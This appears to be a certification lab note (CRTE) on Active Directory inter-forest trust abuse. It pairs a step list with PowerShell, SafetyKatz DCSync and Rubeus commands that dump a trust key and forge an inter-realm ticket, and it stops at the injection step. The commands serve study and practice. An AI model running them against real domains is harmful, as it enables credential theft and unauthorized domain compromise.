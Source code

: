 # Methodology
>1. Dump the trust key of the child domain.
>2. Check if SID Filtering is enabled.
>3. Enumerate RID > 1000.
>4. Forge an inter-forest ticke.
>5. Inject the ticket. 


>**ℹ️ Info:**
>In this example we go from `eu.local` to `euvendor.local` .

---
# Powershell
>**ℹ️ Info:**
>
> Remember to follow the [PowerShell scripts methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#PowerShell%20Scripts).

## PowerView
**Check if SID Filtering is enabled:**
```powershell
Get-ADTrust -Filter *
```

**Look for groups with RID higher than 1000:**
```powershell
Get-ADGroup -Identity EUAdmins -Server euvendor.local
```

---
# Binaries
>**ℹ️ Info:**
>
> Remember to follow the [binaries methodology](Notes/Certifications/CRTE/00%20-%20Miscellaneous/01-%20Methodology.md#Binaries).

## SafetyKatz
**Dump trust key for the inter-forest trust:**
```cmd
SafetyKatz.exe '"lsadump::dcsync /user:eu\euvendor$"'
```

## Rubeus

**Forge an inter-realm TGT:**
```cmd
Rubeus.exe silver /user:Administrator /ldap /service:krbtgt/eu.local /rc4:b96659c7b2109d2e63e6de676d48646c /sid:S-1-5-21-3657428294-2017276338-1274645009 /nowrap 
```

**Inject the ticket**